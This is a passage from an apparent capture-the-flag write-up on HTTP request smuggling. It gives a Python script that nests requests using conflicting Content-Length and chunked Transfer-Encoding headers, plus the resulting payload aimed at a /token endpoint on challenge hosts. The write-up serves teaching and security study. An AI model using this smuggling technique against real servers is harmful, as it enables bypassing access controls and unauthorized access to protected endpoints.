 This means we can now smuggle from `channel.us` to `maelstrom.us` and from `maelstrom.us` to `maw.us`. We need to combine these for it to work on the real thing, however. We can use our Python code from earlier for this!

```python
def passChannel(innerRequest):
    chunk = "0\r\n\r\n"
    request = f"POST /maelstrom HTTP/1.1\r\n"
    request += "Host: channel.us:8080\r\n"
    request += f"Content-Length: {len(innerRequest) + len(chunk)}\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += "Connection: keep-alive\r\n"
    request += f"\r\n{chunk}{innerRequest}"

    return request

with open("request.http", "rb") as r:
    with open("newrequest.http", "w") as w:
        w.write(passChannel(r.read().decode('utf-8')))
```

This nests our `maelstrom` to `maw` request in a `channel` to `maelstrom` request in the file `newrequest.http`. Note that Python will convert `\r\n` to `\n` when reading, so we use `rb` to read as binary and avoid this. In this case, I saved the Python code in a file named `buildRequest.py`.

```bash
unix2dos request.http
python3 buildRequest.py
```

The created `newRequest.http` looks like this:

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Content-Length: 180
Transfer-Encoding: chunked
Connection: keep-alive

0

POST /maw HTTP/1.1
Host: maelstrom.us:8080
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

2e
0

POST /token HTTP/1.1
Host: maw.us:8080

0


```
